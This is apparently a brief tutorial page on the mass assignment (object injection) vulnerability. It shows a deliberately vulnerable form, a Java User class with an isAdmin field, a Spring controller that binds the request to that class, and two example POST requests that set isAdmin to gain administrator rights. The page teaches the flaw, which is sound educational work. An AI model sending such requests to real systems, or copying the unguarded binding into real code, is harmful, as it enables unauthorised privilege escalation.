 ### Mass Assignment/Object Injection Vulnerability:
```
This vulnerability occurs when the user supplies unexpected hidden paramaters to application and assign values to it.
This can allow users with low privilege to create admin account, change details that cant be edited once created, etc.

```
#### Vulnerable Code
```
<form>
     <input name="userid" type="text">
     <input name="password" type="text">
     <input name="email" text="text">
     <input type="submit">
</form>  

```

```
public class User {
   private String userid;
   private String password;
   private String email;
   private boolean isAdmin;

   //Getters & Setters
}

```
#### Request Controller

```
@RequestMapping(value = "/addUser", method = RequestMethod.POST)
public String submit(User user) {
   userService.add(user);
   return "successPage";
}
```

#### Exploit

```
POST /addUser
...
userid=bobbytables&password=hashedpass&email=bobby@tables.com&isAdmin=true

```

```
POST /addUser
...
userid=bobbytables&password=hashedpass&email=bobby@tables.com&isAdmin=1

```

```

```
